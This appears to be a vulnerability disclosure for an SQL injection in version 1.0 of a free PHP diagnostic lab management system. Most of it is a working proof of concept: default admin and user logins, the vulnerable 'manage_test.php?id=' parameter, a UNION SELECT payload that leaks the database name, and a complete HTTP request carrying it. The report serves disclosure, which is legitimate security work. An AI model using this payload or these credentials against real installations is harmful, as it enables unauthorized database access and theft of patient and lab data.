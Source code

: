 # Online Diagnostic Lab Management System v1.0 by oretnom23 has SQL injection

BUG_Author: 云影

Login account: admin/admin123 (Super Admin account)

Login account: cblake@sample.com/cblake123 (General account)

vendors: https://www.sourcecodester.com/php/15129/online-diagnostic-lab-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /odlms/admin/tests/manage_test.php?id=

Vulnerability location: /odlms/admin/tests/manage_test.php?id=,id

dbname=odlms_db,length=8

[+] Payload: /odlms/admin/tests/manage_test.php?id=-1%27%20union%20select%201,database(),3,4,5,6,7,8--+ // Leak place ---> id

```sql
GET /odlms/admin/tests/manage_test.php?id=-1%27%20union%20select%201,database(),3,4,5,6,7,8--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/191256349-3f028474-d544-4fef-aa4e-ff3ba786aba1.png)
